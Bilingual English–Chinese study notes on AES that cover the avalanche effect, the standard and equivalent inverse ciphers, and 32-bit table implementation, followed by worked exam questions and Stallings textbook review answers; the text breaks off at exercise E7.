Q1. (Interpret) Why is about half of the bits (64 of 128) the best avalanche result, and what do the numbers 20, 58, 59 for the plaintext flip show?Q1. （解释）为什么约一半的比特（128 中的 64 个）是最好的雪崩效应结果？例中翻转明文时的数字 20、58、59 说明了什么？
Answer
For an ideal cipher the outputs for two different inputs behave like independent random strings, which differ in 64 of 128 positions on average. Fewer differing bits would let an attacker predict the output change from the input change; nearly all bits differing would be just as predictable (the ciphertext would be almost the complement). The numbers show 20 differing bits after one round, 58 after two (close to 64) and between 58 and 68 afterwards: AES reaches the ideal avalanche after two rounds, one round earlier than DES.对于理想的密码，两个不同输入的输出表现得像独立的随机串，平均在 128 个位置中的 64 个位置上不同。不同比特数更少，会使攻击者能够由输入的变化推测输出的变化；几乎所有比特都不同同样可以预测（此时密文几乎等于其补码）。这些数字表明：一轮之后有 20 个比特不同，两轮之后为 58 个（接近 64），此后在 58 到 68 之间：AES 在两轮之后即达到理想的雪崩效应，比 DES 早一轮。
Decryption and Implementation ★★解密与实现
Goal. Give the stage order of the standard and of the equivalent inverse cipher, explain which round keys change and why, and count the lookups and memory of the 32-bit table implementation.目标。 给出标准逆密码和等价逆密码的步骤顺序，说明哪些轮密钥会改变以及原因，并统计 32 位查表实现的查表次数和内存。
Step 1: the standard inverse cipher第 1 步：标准逆密码
In words: decryption undoes the stages in the opposite order, and its round has a different stage order from encryption's.用文字表述：解密以相反的顺序撤销各步骤，并且它每一轮的步骤顺序与加密不同。
The standard inverse cipher（逆密码）works in this order.标准逆密码按以下顺序工作。
- AddRoundKey with the last round key.用最后一个轮密钥做 AddRoundKey。
- For rounds \(N_r-1\) down to 1: InvShiftRows, InvSubBytes, AddRoundKey, InvMixColumns.对第 \(N_r-1\) 轮到第 1 轮，依次执行 InvShiftRows、InvSubBytes、AddRoundKey、InvMixColumns。
- A last round: InvShiftRows, InvSubBytes, and AddRoundKey with the first round key.最后一轮：InvShiftRows、InvSubBytes，以及用第一个轮密钥做 AddRoundKey。
The stage order differs from encryption. A device that both encrypts and decrypts therefore needs two separate software or firmware modules.步骤顺序与加密不同。因此，既能加密又能解密的设备，需要两套独立的软件或固件模块。
Step 2: the equivalent inverse cipher第 2 步：等价逆密码
In words: by swapping two pairs of stages, decryption gets the same order of stages as encryption, at the price of changing some round keys.用文字表述：通过交换两对步骤，解密得到与加密相同的步骤顺序，代价是要改变部分轮密钥。
An equivalent inverse cipher（等价逆密码）has the stage order of encryption, with each stage replaced by its inverse. Two interchanges make this possible.等价逆密码的步骤顺序与加密相同，只是每个步骤都换成了它的逆。两次交换使这一点成为可能。
- InvShiftRows and InvSubBytes commute. InvShiftRows only moves bytes and ignores their values. InvSubBytes only changes values and ignores their positions.InvShiftRows 与 InvSubBytes 可以交换次序。InvShiftRows 只移动字节，不关心字节的值。InvSubBytes 只改变字节的值，不关心字节的位置。
- AddRoundKey and InvMixColumns can be swapped if the round key is first passed through InvMixColumns. This works because InvMixColumns is linear over XOR.若先对轮密钥做 InvMixColumns，则 AddRoundKey 与 InvMixColumns 可以交换。这之所以成立，是因为 InvMixColumns 对 XOR 是线性的。


EqInvCipher(byte in[16], word dw[4(Nr+1)]):
// dw[0..3] = w[0..3]; dw[4*Nr .. 4*Nr+3] = w[4*Nr .. 4*Nr+3]
// dw[4r..4r+3] = InvMixColumns(w[4r..4r+3]) for r = 1 .. Nr-1
State = in
AddRoundKey(State, dw[4*Nr .. 4*Nr+3])
for round = Nr-1 downto 1:
InvSubBytes(State); InvShiftRows(State); InvMixColumns(State)
AddRoundKey(State, dw[4*round .. 4*round+3])
InvSubBytes(State); InvShiftRows(State)
AddRoundKey(State, dw[0..3])
out = State
The last round of encryption omits MixColumns. If it did contain MixColumns, the ciphertext would be \(C=\text{MC}(Y)\oplus K\), where \(Y\) is the ShiftRows output, MC is MixColumns and \(K\) is the last round key. Anyone can compute \(\text{InvMC}(C)=Y\oplus\text{InvMC}(K)\), which is the cipher without that MixColumns under another last round key. The stage would add cost but no security.加密的最后一轮不含 MixColumns。若它包含 MixColumns，则密文将为 \(C=\text{MC}(Y)\oplus K\)，其中 \(Y\) 是 ShiftRows 的输出，MC 表示 MixColumns，\(K\) 是最后一个轮密钥。任何人都能算出 \(\text{InvMC}(C)=Y\oplus\text{InvMC}(K)\)，它是去掉该 MixColumns、换用另一个最后轮密钥后的密码。这一步只会增加代价，而不会增加安全性。
Step 3: implementation第 3 步：实现
In words: on a 32-bit processor, one round becomes four table lookups per column, because SubBytes, ShiftRows and MixColumns can be merged into tables.用文字表述：在 32 位处理器上，每一轮对每一列只需四次查表，因为 SubBytes、ShiftRows 和 MixColumns 可以合并进表中。
On an 8-bit processor (a smart card), AddRoundKey is a bytewise XOR, ShiftRows is a byte shuffle and SubBytes is a 256-byte table. MixColumns needs only multiplication by {02}, because \(\{03\}\cdot x=(\{02\}\cdot x)\oplus x\).在 8 位处理器（如智能卡）上，AddRoundKey 是逐字节的 XOR，ShiftRows 是字节重排，SubBytes 是一张 256 字节的表。MixColumns 只需要乘以 {02}，因为 \(\{03\}\cdot x=(\{02\}\cdot x)\oplus x\)。
On a 32-bit processor, a column of the new State is built as follows. ShiftRows selects four bytes of the old State, one from each column. SubBytes maps each through the S-box. MixColumns multiplies each result into one column of the matrix. The four products are precomputed for every byte value and stored in four tables.在 32 位处理器上，新状态数组的一列按如下方式构造。ShiftRows 从旧状态数组中选出四个字节，每列各取一个。SubBytes 把每个字节经 S 盒映射。MixColumns 把每个结果与矩阵的对应列相乘。对每个字节值，这四种乘积都预先算好，并存放在四张表中。
The conditional XOR in the multiplication by {02} takes data-dependent time, and a timing attack can exploit it. A table lookup for \(\{02\}\cdot x\) removes this leak.乘以 {02} 中的条件 XOR 所用时间取决于数据，时序攻击可以利用这一点。对 \(\{02\}\cdot x\) 改用查表，就能消除这一泄漏。
Practice练习
Q1. (True or false) "The equivalent inverse cipher applies InvMixColumns to all \(N_r+1\) round keys." Justify.Q1. （判断）“等价逆密码将逆列混淆应用于全部 \(N_r+1\) 个轮密钥。”请说明理由。
Answer
False. InvMixColumns is applied only to the round keys of rounds 1 to \(N_r-1\). The first AddRoundKey of decryption (round key \(N_r\)) and the last one (round key 0) are not interchanged with an InvMixColumns, so no transformation of those keys is needed.错误。逆列混淆只应用于第 1 轮至第 \(N_r-1\) 轮的轮密钥。解密中第一个轮密钥加（轮密钥 \(N_r\)）和最后一个轮密钥加（轮密钥 0）不与逆列混淆互换，因此这些密钥无需任何变换。
易错：首尾两个轮密钥保持原样。
Q2. (Calculation) How many table lookups and XORs does one AES round need with the 32-bit table method, and how much memory do the tables use?Q2. （计算）在 32 位查表方法中，一轮 AES 需要多少次查表和异或运算？表占用多少内存？
Answer
Each of the four columns needs 4 lookups (\(T_0,\dots,T_3\)) and 4 XORs of 32-bit words (three combine the four table words, one adds the round-key word). A round therefore needs \(4\times4=16\) lookups and 16 XORs. There are four tables of 256 words of 4 bytes: \(4\times256\times4=4096\) bytes (4 KB).四列中每一列需要 4 次查表（\(T_0,\dots,T_3\)）和 4 次 32 位字的异或（其中三次用于合并四个表中的字，一次用于加上轮密钥字）。因此一轮需要 \(4\times4=16\) 次查表和 16 次异或。共有四个表，每个表有 256 个 4 字节的字：共 \(4\times256\times4=4096\) 字节（4 KB）。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Rijndael selectionRijndael 入选 | NIST open competition; finalists MARS, RC6, Rijndael, Serpent, Twofish. Rijndael won through security, speed and compact implementationNIST 公开竞赛；决赛入围者为 MARS、RC6、Rijndael、Serpent、Twofish。Rijndael 凭借安全性、速度和紧凑的实现胜出 |
| Inverse S-box逆 S 盒 | Maps each S-box output back to its input; InvSubBytes applies the inverse affine map first, then the GF(\(2^8\)) inverse把每个 S 盒输出映回对应输入；InvSubBytes 先作用逆仿射变换，再作用 GF(\(2^8\)) 中的逆 |
| S-box designS 盒的设计 | Low correlation between input and output bits, not a linear function; nonlinearity from the GF inverse输入与输出各位之间相关性低，不是线性函数；非线性来自 GF 中的求逆 |
| MixColumns as polynomial把 MixColumns 看作多项式运算 | A column is a polynomial over GF(\(2^8\)) multiplied by a fixed polynomial modulo \(x^4+1\); InvMixColumns uses its inverse一列是 GF(\(2^8\)) 上的多项式，与一个固定多项式在模 \(x^4+1\) 下相乘；InvMixColumns 使用其逆 |
| Key-schedule criteria密钥扩展的设计准则 | Partial key knowledge reveals few other round-key bits; schedule invertible; round constants break symmetry; every key bit affects many round-key bits部分密钥信息只能泄露很少的其他轮密钥位；密钥扩展可逆；轮常数打破对称性；每个密钥位都影响许多轮密钥位 |
| Shared MixColumns termsMixColumns 中共享的项 | On 8-bit processors the four outputs of a column share one XOR of its four bytes, so only multiplications by {02} remain在 8 位处理器上，一列的四个输出共享该列四个字节的同一个 XOR 结果，因此只剩下乘以 {02} 的运算 |
| AES-NI | Intel instructions of 2008 that execute AES rounds in hardware2008 年 Intel 推出的指令，在硬件中执行 AES 的轮运算 |
| Security status安全性现状 | No single-key attack on full AES is much faster than exhaustive search; best biclique attack about \(2^{126.1}\) operations for AES-128对完整 AES 的单密钥攻击都不比穷举搜索快很多；对 AES-128 最好的 biclique 攻击约需 \(2^{126.1}\) 次运算 |
| Related-key attacks相关密钥攻击 | Exist in theory on AES-192 and AES-256, but need related keys that a correct protocol never supplies理论上对 AES-192 和 AES-256 存在，但它需要一个正确的协议从不提供的相关密钥 |
| Implementation attacks实现攻击 | Cache-timing attacks on table-based software are practical; hardware instructions avoid them针对基于查表实现的软件，缓存计时攻击是可行的；硬件指令可以避免这种攻击 |
| Exhaustive search穷举搜索 | About \(2^{127}\) trials on average for AES-128, against \(2^{55}\) for DESAES-128 平均约需 \(2^{127}\) 次尝试，DES 则需 \(2^{55}\) 次 |
Exam-style questions考试题型练习
Q1. (Structure and design, 10 marks) (a) State the block size, the possible key sizes and the numbers of rounds of AES. (3 marks) (b) List, in order, the stages of one full round. Which stage uses the round key, and which stage is missing from the last round? (3 marks) (c) Explain two differences between the structure of AES and that of a Feistel cipher such as DES. (4 marks)Q1. （结构与设计，10 分）（a）给出 AES 的分组大小、可能的密钥长度以及轮数。（3 分）（b）按顺序列出一个完整轮的各阶段。哪一阶段使用轮密钥？最后一轮缺少哪一阶段？（3 分）（c）解释 AES 的结构与 DES 等 Feistel 密码结构之间的两点区别。（4 分）
Answer
(a) The block has 128 bits (16 bytes). The key has 128, 192 or 256 bits, giving 10, 12 or 14 rounds respectively. (3)（a）分组为 128 位（16 字节）。密钥为 128、192 或 256 位，分别对应 10、12 或 14 轮。（3）
(b) SubBytes, ShiftRows, MixColumns, AddRoundKey. Only AddRoundKey uses the round key (an initial AddRoundKey also precedes round 1). The last round has no MixColumns. (3)（b）字节代换、行移位、列混淆、轮密钥加。只有轮密钥加使用轮密钥（第 1 轮之前还有一次初始的轮密钥加）。最后一轮没有列混淆。（3）
(c) First, a Feistel round changes only half of the block and swaps the halves, whereas AES transforms the whole State in every round (a substitution–permutation network). Second, in a Feistel cipher the round function need not be invertible and decryption has the same structure as encryption with the subkeys reversed; in AES every stage must be invertible and decryption uses different transformations (InvSubBytes, InvShiftRows, InvMixColumns) in a different order. (4)（c）第一，Feistel 轮只改变分组的一半并交换两半，而 AES 每一轮都变换整个状态矩阵（代换-置换网络）。第二，在 Feistel 密码中，轮函数不必可逆，解密的结构与加密相同，只是子密钥逆序使用；而在 AES 中，每个阶段都必须可逆，解密使用不同的变换（逆字节代换、逆行移位、逆列混淆），并且顺序也不同。（4）
思路：先答数字，再答顺序，最后答"整块 vs 半块"和"解密结构不同"。
Q2. (Trace, 10 marks) The plaintext is {0F0E0D0C0B0A09080706050403020100} and the key consists of sixteen bytes {02}. Give (a) the State as a 4×4 matrix, (b) the State after the initial AddRoundKey, (c) the State after SubBytes, (d) the State after ShiftRows (2 marks each), and (e) the first byte of the MixColumns output with the GF(\(2^8\)) products (2 marks).Q2. （手工演算，10 分）明文为 {0F0E0D0C0B0A09080706050403020100}，密钥由 16 个字节 {02} 组成。求：（a）以 4×4 矩阵表示的状态矩阵；（b）初始轮密钥加之后的状态矩阵；（c）字节代换之后的状态矩阵；（d）行移位之后的状态矩阵（每小题 2 分）；以及（e）列混淆输出的第一个字节，并给出 GF(\(2^8\)) 中的乘积（2 分）。
Answer
(a) The bytes fill the State by columns, so the first column is 0F, 0E, 0D, 0C. (b) Every byte is XORed with {02}. (c) SubBytes uses the S-box, for example S({0D}) = {D7}, S({09}) = {01}. (d) Row \(r\) is rotated left by \(r\) bytes.（a）字节按列填入状态矩阵，因此第一列为 0F、0E、0D、0C。（b）每个字节都与 {02} 异或。（c）字节代换使用 S 盒，例如 S({0D}) = {D7}，S({09}) = {01}。（d）第 \(r\) 行循环左移 \(r\) 个字节。
(a) State (b) AddRoundKey (c) SubBytes (d) ShiftRows
0F 0B 07 03 0D 09 05 01 D7 01 6B 7C D7 01 6B 7C
0E 0A 06 02 0C 08 04 00 FE 30 F2 63 30 F2 63 FE
0D 09 05 01 0F 0B 07 03 76 2B C5 7B C5 7B 76 2B
0C 08 04 00 0E 0A 06 02 AB 67 6F 77 77 AB 67 6F
(e) The first column after ShiftRows is \((D7,30,C5,77)\). \(s'_0=\{02\}\cdot\{D7\}\oplus\{03\}\cdot\{30\}\oplus\{C5\}\oplus\{77\}\). Here \(\{02\}\cdot\{D7\}=\{AE\}\oplus\{1B\}=\{B5\}\) (a 1 was lost) and \(\{03\}\cdot\{30\}=\{30\}\oplus\{60\}=\{50\}\), so \(s'_0=\{B5\}\oplus\{50\}\oplus\{C5\}\oplus\{77\}=\{57\}\). The full MixColumns output is（e）行移位之后的第一列为 \((D7,30,C5,77)\)。\(s'_0=\{02\}\cdot\{D7\}\oplus\{03\}\cdot\{30\}\oplus\{C5\}\oplus\{77\}\)。这里 \(\{02\}\cdot\{D7\}=\{AE\}\oplus\{1B\}=\{B5\}\)（移出了一个 1），且 \(\{03\}\cdot\{30\}=\{30\}\oplus\{60\}=\{50\}\)，因此 \(s'_0=\{B5\}\oplus\{50\}\oplus\{C5\}\oplus\{77\}=\{57\}\)。列混淆的完整输出为：
57 DF 62 A5
94 D8 50 89
EF E3 4D 65
79 C7 66 8F
易错：输入字节按列填充；行 \(r\) 左移 \(r\) 位。
Q3. (Key expansion, 10 marks) The 128-bit key is all zeros. Use S({00}) = {63}, S({62}) = {AA} and S({63}) = {FB}. (a) Compute \(w[4],\dots,w[7]\) (6 marks). (b) Compute \(w[8]\) (4 marks).Q3. （密钥扩展，10 分）128 位密钥全为零。取 S({00}) = {63}，S({62}) = {AA}，S({63}) = {FB}。（a）计算 \(w[4],\dots,w[7]\)（6 分）。（b）计算 \(w[8]\)（4 分）。
Answer
(a) \(w[0],\dots,w[3]\) are 00000000. For \(i=4\), temp \(=w[3]=\) 00000000; RotWord gives 00000000; SubWord gives 63636363; XOR Rcon[1] = 01000000 gives 62636363. So \(w[4]=w[0]\oplus\) 62636363 = 62636363. Then \(w[5]=w[4]\oplus w[1]\) = 62636363, \(w[6]=w[5]\oplus w[2]\) = 62636363 and \(w[7]=w[6]\oplus w[3]\) = 62636363. (6)（a）\(w[0],\dots,w[3]\) 均为 00000000。对于 \(i=4\)，temp \(=w[3]=\) 00000000；RotWord 得到 00000000；SubWord 得到 63636363；再与 Rcon[1] = 01000000 异或得到 62636363。因此 \(w[4]=w[0]\oplus\) 62636363 = 62636363。然后 \(w[5]=w[4]\oplus w[1]\) = 62636363，\(w[6]=w[5]\oplus w[2]\) = 62636363，\(w[7]=w[6]\oplus w[3]\) = 62636363。（6）
(b) For \(i=8\), temp \(=w[7]=\) 62636363; RotWord gives 63636362; SubWord gives FBFBFBAA; Rcon[2] = 02000000 gives F9FBFBAA. So \(w[8]=w[4]\oplus\) F9FBFBAA = 9B9898C9. (4)（b）对于 \(i=8\)，temp \(=w[7]=\) 62636363；RotWord 得到 63636362；SubWord 得到 FBFBFBAA；再与 Rcon[2] = 02000000 异或得到 F9FBFBAA。因此 \(w[8]=w[4]\oplus\) F9FBFBAA = 9B9898C9。（4）
Q4. (Decryption and implementation, 10 marks) (a) Give the stage sequence of one round of the standard inverse cipher and of one round of the equivalent inverse cipher. (3 marks) (b) Explain why the round keys must be modified in the equivalent inverse cipher and which ones. (4 marks) (c) Explain how a 32-bit processor merges SubBytes, ShiftRows and MixColumns, and give the cost of one round. (3 marks)Q4. （解密与实现，10 分）（a）给出标准逆密码一轮和等价逆密码一轮的阶段顺序。（3 分）（b）解释为什么等价逆密码中必须修改轮密钥，以及需要修改哪些轮密钥。（4 分）（c）解释 32 位处理器如何合并字节代换、行移位和列混淆，并给出一轮的代价。（3 分）
Answer
(a) Standard: InvShiftRows, InvSubBytes, AddRoundKey, InvMixColumns. Equivalent: InvSubBytes, InvShiftRows, InvMixColumns, AddRoundKey, the same order as encryption with inverse stages. (3)（a）标准逆密码：逆行移位、逆字节代换、轮密钥加、逆列混淆。等价逆密码：逆字节代换、逆行移位、逆列混淆、轮密钥加，其顺序与加密相同，只是各阶段换为其逆变换。（3）
(b) The equivalent cipher needs InvMixColumns before AddRoundKey instead of after it. InvMixColumns is linear over XOR, so \(\text{InvMixColumns}(S\oplus w)=\text{InvMixColumns}(S)\oplus\text{InvMixColumns}(w)\): the stages can be swapped if the round key \(w\) is replaced by \(\text{InvMixColumns}(w)\). This is needed for the round keys of rounds 1 to \(N_r-1\) only; the first and the last AddRoundKey are not swapped with InvMixColumns, so their keys are used unchanged. (4)（b）等价逆密码需要把逆列混淆放在轮密钥加之前，而不是之后。逆列混淆对异或是线性的，因此 \(\text{InvMixColumns}(S\oplus w)=\text{InvMixColumns}(S)\oplus\text{InvMixColumns}(w)\)：若轮密钥 \(w\) 被替换为 \(\text{InvMixColumns}(w)\)，两个阶段即可交换。这一修改只针对第 1 至第 \(N_r-1\) 轮的轮密钥；第一个和最后一个轮密钥加不与逆列混淆交换，因此它们使用的密钥不作修改。（4）
(c) Four tables \(T_0,\dots,T_3\) of 256 32-bit words hold the S-box output multiplied by the four columns of the MixColumns matrix. For every column of the new State, the four bytes selected by ShiftRows index the four tables, and the four words and the round-key word are XORed. This costs 4 lookups and 4 XORs per column, so 16 lookups and 16 XORs per round, with 4 KB of tables. (3)（c）四个表 \(T_0,\dots,T_3\)，每个表包含 256 个 32 位字，保存 S 盒输出分别乘以列混淆矩阵四列的结果。对于新状态矩阵的每一列，由行移位选出的四个字节作为索引查询四个表，然后将这四个字与轮密钥字异或。每列需要 4 次查表和 4 次异或，因此每轮需要 16 次查表和 16 次异或，表占用 4 KB。（3）
Q5. (Design analysis, 10 marks) An engineer proposes three changes to AES-128. For each, state what is lost. (a) Remove ShiftRows (3 marks). (b) Replace the S-box by an affine map (3 marks). (c) Remove the initial AddRoundKey (2 marks). (d) Define the avalanche effect and say after how many rounds AES reaches it, compared with DES (2 marks).Q5. （设计分析，10 分）某工程师对 AES-128 提出三项修改。对每一项，说明会失去什么。（a）去掉行移位（3 分）。（b）用仿射映射替换 S 盒（3 分）。（c）去掉初始的轮密钥加（2 分）。（d）定义雪崩效应，并说明与 DES 相比，AES 在几轮之后达到雪崩效应（2 分）。
Answer
(a) Without ShiftRows the columns never interact: every output column depends on one input column only, so AES becomes four independent 32-bit ciphers. Diffusion across the block is lost; changing one input byte changes only four output bytes, which is a trivial distinguisher, and each column can be attacked separately. (3)（a）若没有行移位，各列之间永远不会相互作用：每个输出列只依赖于一个输入列，因此 AES 变成四个相互独立的 32 位密码。分组内的扩散丧失；改变一个输入字节只会改变四个输出字节，这构成一个平凡的区分器，并且每一列都可以单独攻击。（3）
(b) With an affine S-box every stage is affine over GF(2), so the whole cipher is \(C=AP\oplus b\) with a 128×128 binary matrix \(A\) and a vector \(b\) that depend on the key. These are \(128\cdot128+128=16{,}512\) unknown bits; each known plaintext–ciphertext pair gives 128 linear equations, so 129 pairs and Gaussian elimination reveal \(A\) and \(b\) and allow encryption and decryption of any block without the key. The nonlinearity (confusion) of the S-box is what prevents this. (3)（b）若 S 盒是仿射的，则每个阶段都是 GF(2) 上的仿射变换，因此整个密码为 \(C=AP\oplus b\)，由依赖于密钥的 128×128 二进制矩阵 \(A\) 和向量 \(b\) 确定。这些共有 \(128\cdot128+128=16{,}512\) 个未知比特；每个已知明文-密文对给出 128 个线性方程，因此 129 对明文-密文与高斯消元即可求出 \(A\) 和 \(b\)，从而无需密钥即可加密和解密任意分组。正是 S 盒的非线性（即混淆）阻止了这种攻击。（3）
(c) SubBytes, ShiftRows and MixColumns before the first AddRoundKey are keyless and invertible, so the attacker can compute their output from the plaintext; the first round then adds no security and the cipher is effectively one round weaker. (2)（c）第一个轮密钥加之前的字节代换、行移位和列混淆都不使用密钥且可逆，因此攻击者可以由明文计算出它们的输出；这样第一轮随之不再增加安全性，密码实际上相当于弱了一轮。（2）
(d) The avalanche effect means that a small change in plaintext or key changes about half of the ciphertext bits. AES reaches it after two rounds (58 of 128 bits in the example), DES after three. (2)（d）雪崩效应指明文或密钥的微小改变会使约一半密文比特发生改变。AES 在两轮之后达到雪崩效应（例中为 128 位中的 58 位），DES 则需三轮。（2）
Textbook exercises课后习题
Textbook exercises with answers: 19 questions教材习题及答案，共 19 题，点击展开
E1. (Review Question 6.1, Stallings) What was the original set of criteria used by NIST to evaluate candidate AES ciphers?E1. （复习题 6.1，Stallings）NIST 最初用哪些准则评价 AES 候选算法？
Answer
The call for candidates (1997) required a symmetric block cipher with a 128-bit block and key sizes of 128, 192 and 256 bits, and judged candidates by three groups of criteria:1997 年的征集要求候选算法是分组长度为 128 位、密钥长度为 128、192 或 256 位的对称分组密码，并按三组准则评价候选算法：
- Security: resistance to cryptanalysis compared with the other candidates, soundness of the mathematical basis, and randomness of the output.安全性：与其他候选算法相比的抗密码分析能力、数学基础是否可靠，以及输出的随机性。
- Cost: royalty-free worldwide licensing, plus computational efficiency (speed) and memory requirements in software and hardware.成本：全球免专利费授权，以及软件和硬件中的计算效率（速度）和内存需求。
- Algorithm and implementation characteristics: flexibility (e.g. several key and block sizes, use on many platforms), suitability for hardware and software, and simplicity of design.算法与实现特性：灵活性（例如支持多种密钥和分组长度、可在多种平台上使用）、适合软硬件实现，以及设计简单。
思路：原始标准 = 安全性、成本、算法与实现特性三大类。
E2. (Review Question 6.2, Stallings) What was the final set of criteria used by NIST to evaluate candidate AES ciphers?E2. （复习题 6.2，Stallings）NIST 最终用哪些准则评价 AES 候选算法？
Answer
After the first evaluation round NIST refined the criteria into nine items:第一轮评估后，NIST 把准则细化为九项：
- General security (resistance to cryptanalysis, the main factor).总体安全性（抗密码分析能力，是最主要的因素）。
- Software implementations (speed on different processors, memory use).软件实现（在不同处理器上的速度、内存占用）。
- Restricted-space environments (e.g. smart cards with little RAM and ROM).受限环境（例如 RAM 和 ROM 都很少的智能卡）。
- Hardware implementations (FPGA and ASIC speed and area).硬件实现（FPGA 和 ASIC 的速度与面积）。
- Attacks on implementations (timing, power analysis; ease of protection).实现攻击（计时、功耗分析；防护是否容易）。
- Encryption versus decryption (cost of both directions, key setup).加密与解密（两个方向的代价、密钥建立）。
- Key agility (ability to change keys quickly with little overhead).密钥灵活性（能否以很小的开销快速更换密钥）。
- Other versatility and flexibility (e.g. parameter flexibility, suitability for other uses).其他通用性与灵活性（例如参数可调、适用于其他用途）。
- Potential for instruction-level parallelism.指令级并行的潜力。
Rijndael was selected because it offered the best combination of security, speed on all platforms, and low memory need.选中 Rijndael 是因为它在安全性、各平台上的速度和低内存需求之间取得了最好的平衡。
思路：最终九项：安全、软件、受限空间、硬件、实现攻击、加解密差异、密钥灵活性、通用性、指令级并行。
E3. (Review Question 6.3, Stallings) How many different key sizes are approved for AES?E3. （复习题 6.3，Stallings）AES 批准了几种不同的密钥长度？
Answer
Three: 128, 192 and 256 bits, giving AES-128, AES-192 and AES-256. The block size is always 128 bits. The key size fixes the number of rounds: 10, 12 and 14 respectively, and the number of 32-bit key words \(N_k\) is 4, 6 and 8.三种：128、192 和 256 位，对应 AES-128、AES-192 和 AES-256。分组长度始终是 128 位。密钥长度决定轮数，分别为 10、12 和 14 轮；32 位密钥字的个数 \(N_k\) 分别为 4、6 和 8。
思路：三种密钥长度，对应 10/12/14 轮，分组始终 128 位。
E4. (Review Question 6.4, Stallings) What is the purpose of the State array?E4. （复习题 6.4，Stallings）State 数组的作用是什么？
Answer
The State is a \(4 \times 4\) matrix of bytes (128 bits) that holds the block while it is being processed. The input block is copied into it column by column (byte \(i\) goes to row \(i \bmod 4\), column \(\lfloor i/4 \rfloor\)); every round transformation (SubBytes, ShiftRows, MixColumns, AddRoundKey) reads and rewrites the State; after the last round the State is copied to the output. The matrix form is what the transformations work on: ShiftRows permutes bytes within the rows and MixColumns mixes the bytes within each column.State 是一个 \(4 \times 4\) 字节矩阵（共 128 位），在处理过程中保存当前的分组。输入分组按列复制进 State（字节 \(i\) 放到第 \(i \bmod 4\) 行、第 \(\lfloor i/4 \rfloor\) 列）；每一轮的变换（SubBytes、ShiftRows、MixColumns、AddRoundKey）都读取并改写 State；最后一轮结束后，State 被复制到输出。之所以用矩阵形式，是因为各变换都直接作用于它：ShiftRows 在行内置换字节，MixColumns 在每一列内混合字节。
思路：State 是 4×4 字节矩阵，按列装入明文，作为各轮变换作用的中间状态，最后按列输出。
E5. (Review Question 6.5, Stallings) How is the S-box constructed?E5. （复习题 6.5，Stallings）S 盒是怎样构造的？
Answer
The S-box is a table of 256 byte values built from a mathematical rule, not at random. For each input byte \(b\):S 盒是一张 256 个字节值的表，由数学规则构造而不是随机生成。对每个输入字节 \(b\)，按以下步骤计算：
- Take the multiplicative inverse of \(b\) in \(GF(2^8)\) modulo \(x^8 + x^4 + x^3 + x + 1\); the byte \(\{00\}\) is mapped to itself.在 \(GF(2^8)\) 中模 \(x^8 + x^4 + x^3 + x + 1\) 取 \(b\) 的乘法逆元；字节 \(\{00\}\) 映射为它自己。
- Apply a fixed affine transformation over \(GF(2)\) to the bits \(b_7 \dots b_0\) of the inverse:对逆元的各位 \(b_7 \dots b_0\) 做 \(GF(2)\) 上的固定仿射变换：
\[b'_i = b_i \oplus b_{(i+4) \bmod 8} \oplus b_{(i+5) \bmod 8} \oplus b_{(i+6) \bmod 8} \oplus b_{(i+7) \bmod 8} \oplus c_i, \quad c = \{63\} = 01100011.\]
The result is the S-box output. The table is a permutation of all 256 values; it is arranged as a \(16 \times 16\) grid, with the high nibble of the input as row and the low nibble as column. The inverse S-box is built by inverting the affine map first and then the field inverse.结果就是 S 盒的输出。这张表是 256 个值的一个置换，排成一个 \(16 \times 16\) 网格，输入的高 4 位作行、低 4 位作列。逆 S 盒则相反：先对仿射变换求逆，再求域内的乘法逆元。
思路：S 盒 = 先取 GF(2^8) 中的乘法逆元（0 映射为 0），再做固定的仿射变换（常数 63）。
E6. (Review Question 6.6, Stallings) What is the rationale behind the choice of the specific S-box in the AES?E6. （复习题 6.6，Stallings）AES 选用这种特定 S 盒的理由是什么？
Answer
The designers wanted an S-box that resists known cryptanalytic attacks, in particular linear and differential cryptanalysis. They sought:设计者希望 S 盒能抵抗已知的密码分析攻击，尤其是线性密码分析和差分密码分析。他们要求：
- Low correlation between input bits and output bits, and low differential uniformity, so that linear approximations and difference patterns have small probability.输入位与输出位之间的相关性低，差分均匀性也低，使线性逼近和差分模式的概率都很小。
- Output that is not a simple linear (or algebraic) function of the input. The nonlinearity comes from the multiplicative inverse in \(GF(2^8)\), which is a highly nonlinear map.输出不是输入的简单线性（或代数）函数。非线性来自 \(GF(2^8)\) 中的乘法逆元，它是一个高度非线性的映射。
- No fixed points (\(S(a) = a\)) and no "opposite" fixed points (\(S(a) = \bar a\)). The constant \(\{63\}\) in the affine step ensures this, and the affine step also destroys the simple algebraic form of the inverse function so that it cannot be attacked by interpolation.没有不动点（\(S(a) = a\)），也没有“相反”的不动点（\(S(a) = \bar a\)）。仿射步骤中的常数 \(\{63\}\) 保证了这一点；仿射步骤还破坏了求逆函数的简单代数形式，使它无法被插值攻击。
思路：逆元提供非线性、低相关与低差分概率，仿射变换和常数 63 去掉不动点并破坏简单代数表达。
E7. (Review Question 6.7, Stallings) Briefly describe ShiftRows.E7. （复习题 6.7，Stallings）简述 ShiftRows。
Answer
